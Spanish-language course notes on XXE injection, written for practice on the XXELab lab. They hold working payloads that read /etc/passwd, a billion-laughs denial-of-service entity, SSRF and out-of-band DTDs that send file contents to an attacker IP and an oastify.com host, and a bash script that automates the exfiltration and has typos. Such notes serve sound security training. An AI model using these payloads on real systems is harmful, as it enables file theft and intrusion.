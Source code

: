 # # XML External Entity Injection (XXE)

Tags: #XXE #OWASP #Explotacion 

Cuando hablamos de **XML External Entity** (**XXE**) **Injection**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “**ir a ciegas**” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un **Document Type Definition** (**DTD**) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo **SSRF** (**Server-Side Request Forgery**). Esta técnica de ataque puede permitir a un atacante escanear **puertos internos** en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener **información sensible** o incluso **tomar el control** de los servicios internos.

A continuación, se proporciona el enlace al proyecto de GitHub correspondiente al laboratorio que estaremos desplegando en esta clase para practicar esta vulnerabilidad:

-   **XXELab**: [https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab)

![| 00x300](Pasted%20image%2020230420205723.png)
![00x300](Pasted%20image%2020230420205849.png)
![00x200](Pasted%20image%2020230420210056.png)
![00x200](Pasted%20image%2020230420210113.png)  ![00x200](Pasted%20image%2020230420210246.png)
![00x350](Pasted%20image%2020230420211907.png)
![00x280](Pasted%20image%2020230420212052.png)
También podemos explotar
![00x400](Pasted%20image%2020230421134216.png)

## XML en la web

* Usaremos XML como código para hacer los scripts. 
* El campo en donde debemos de fijarnos es aquel que el **Input** es el que nos representa en la web como **Output**

En el archivo XML debemos de colocar un DOCTYPE y ese es el que estaremos modificando
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY myName "omar">]>                                                        <!-- Colocamos lo que queremos que salga en el output de la web -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>                                    <!-- Colocamos la ruta abosluta del archivo -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>    <!-- Representara el output en una sola linea en base64 -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY myFile SYSTEM "http://192.168.68.108/testXXE">]>            <!-- Hara una peticion GET a nuestro servidor buscando el archivo testXXE -->
	<root>
		<name>
			<email>
				&myFile;                                                              <!-- Llamamos a la entidad desde aqui -->
			</email>
		</name>
	</root>
```

```xml 
<!-- Un millon de risas -->

<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
  <!ELEMENT example ANY >
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
  ]>
<example>
  &lol9;
</example>
```

```xml 
<!-- XXE -- SSRF -->

<!DOCTYPE xxe [ 
  <!ENTITY juju SYSTEM "http://9lvskwimvjek0wq5s8up8ja0grmia8yx.oastify.com?nombre=omar"> 
]>
```

## **XXE OOB Blind**
Cuando no se puede llamar la entidad desde el campo seleccionado en la estructura, lo llamamos desde el DOCTYPE colocando el porcentaje al inicio y final con el nombre. El archivo debe de tener la extensión **.dtd**
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.68.108/malicious.dtd"> %xxe;]>       <!-- Hara una peticion GET a nuestro servidor buscando el archivo testXXE -->
	<root>
		<name>
			<email>
				test@test.com                                                              <!-- Aveces no podemos llamar la entidad desde aqui -->
			</email>
		</name>
	</root>
```

* Así es como haríamos un archivo .dtd externo
```bash
❯ nvim malicious.dtd                        # Creamos el archivo malicioso
```

* Haremos que el output en base64 me lo envié a mi maquina de atacante como una petición por GET. Esto dentro del archivo  malicious.dtd
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.68.108/?file=%file;' >">                  <!-- Debemos de colocar el % en HEX = 25 --> 
%eval;                                                                                                   <!-- Debemos de llamar a las entidades --> 
%exfil; 
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```


Con este automatizas el proceso y puedes solicitar el archivo que quieras.
```bash
❯ nvim xxe_oob.sh                        # Creamos el archivo para automatizar el resultado final 
```

```bash
#!/bin/bash

echo -ne "[+] Introdiuce el archivo a leer: " && read -r myFilename

maliciuos_dtd="""
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=$myFilename">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.68.108/?file=%file;'>">                  
%eval;                                                                                                    
%exfil; """

echo $malicious_dtd > malicious.dtd

python3 -m http.server 80 &>response &

PID=$!

sleep 1; echo

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<! ENTITY % xxe SYSTEM "http://192.168.68.108/malicious.dtd"> %xxe;]>      
<root><name><email>test@test.com</email></name></root>' &>/dev/null

cat response  | grep -oP "/?file=\K[^.*]+" | base64 -d

kill -9 $PID 
wait $PID 2>/dev/null

rm response 2>/dev/null

```